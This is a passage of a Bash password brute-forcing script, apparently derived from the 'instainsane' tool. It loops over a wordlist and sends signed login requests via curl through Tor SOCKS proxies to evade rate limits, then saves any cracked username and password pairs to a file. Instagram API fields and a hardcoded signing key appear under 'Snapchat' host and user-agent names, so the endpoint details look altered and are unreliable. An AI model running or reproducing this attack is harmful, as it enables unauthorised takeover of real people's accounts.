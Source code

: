 header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
let counter++
printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass
{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9051 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$ ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  ; elif [[ $var == "Please wait" ]]; then echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; pid1=$! ; #;wait $!;
let startline+=20
let endline+=20
done
}
bf2resume() {
while [ $counter2 -lt $turn ]; do
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
IFS=$'\n'
startresume=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1) 
startresume1=$((startresume+1))
IFS=$'\n'
for pass in $(sed -n ''$startresume1','$(($token+endline))'p' $wl_pass); do
header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
let counter2++
printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass
{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9052 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$ ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  ; elif [[ $var == "Please wait" ]]; then echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; pid2=$! ; # wait $!;
let startline+=20
let endline+=20